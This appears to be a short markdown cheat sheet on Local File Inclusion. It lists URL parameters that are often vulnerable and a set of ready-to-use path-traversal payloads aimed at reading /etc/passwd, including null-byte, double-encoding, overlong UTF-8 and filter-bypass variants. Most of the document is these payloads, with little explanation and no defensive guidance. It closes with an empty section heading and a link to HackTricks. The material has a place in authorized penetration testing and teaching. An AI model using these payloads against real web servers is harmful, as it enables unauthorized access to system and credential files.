

## Local File Inclusion :

**- This is a bug that allows hackers to `view`,`access`,`include` files located in the web server**

### Parameters :


```
?cat=
?dir=
?action=
?board=
?date=
?detail=
?file=
?download=
?path=
?folder=
?prefix=
?include=
?page=
?inc=
?locate=
?show=
?doc=
?site=
?type=
?view=
?content=
?document=
?layout=
?mod=
```


#### Basic payloads to testing :

```
?file=./../../../../../../../../../etc/passwd
http://example.com/index.php?page=....//....//....//etc/passwd
http://example.com/index.php?page=....\/....\/....\/etc/passwd
http://some.domain.com/static/%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd

// null byte
http://example.com/index.php?page=../../../etc/passwd%00

// Encoding
http://example.com/index.php?page=..%252f..%252f..%252fetc%252fpasswd
http://example.com/index.php?page=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00

// Filter Bypass tricks
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
Maintain the initial path: http://example.com/index.php?page=/var/www/../../etc/passwd


```


##### Intresting `Functions()` :




## References:

[Tricks]([File Inclusion/Path traversal - HackTricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion))


